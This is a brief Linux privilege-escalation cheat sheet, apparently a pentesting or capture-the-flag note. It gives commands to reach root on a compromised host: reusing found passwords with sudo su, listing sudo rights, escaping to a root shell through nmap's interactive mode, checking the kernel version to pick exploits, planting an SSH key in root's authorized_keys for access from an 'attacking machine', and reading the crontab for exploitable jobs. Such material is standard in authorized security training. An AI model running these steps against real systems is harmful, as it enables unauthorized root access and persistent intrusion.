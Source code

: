 ### Privilege Escalation

#### If you have found any passwords on the machine, try running as root
```
sudo su
```
#### Check which commands sudo can run
``` 
sudo -l

# If you get something like 
# User asterisk may run the following commands on this host:
#    (root) NOPASSWD: /sbin/shutdown
#    (root) NOPASSWD: /usr/bin/nmap
# Google the application you can run as root, eg. nmap privilege escalation
sudo nmap --interactive
namp> !sh
``` 
#### Check which version/year of Linux for privesc exploits
```
uname -a
```

#### If you can modify files as root
#### Try to add ssh public key to root/.ssh/authorized_keys
```
# Generate ssh key pair
ssh-keygen -o

# Copy the public key
cat /root/.ssh/id_rsa.pub

# Paste it into your root/.ssh/authorized_keys file (create if necessary)
# Then try and access through ssh from attacking machine
ssh root@targetip
```

#### Check the crontab for cron jobs you can exploit
```
cat /etc/crontab
```
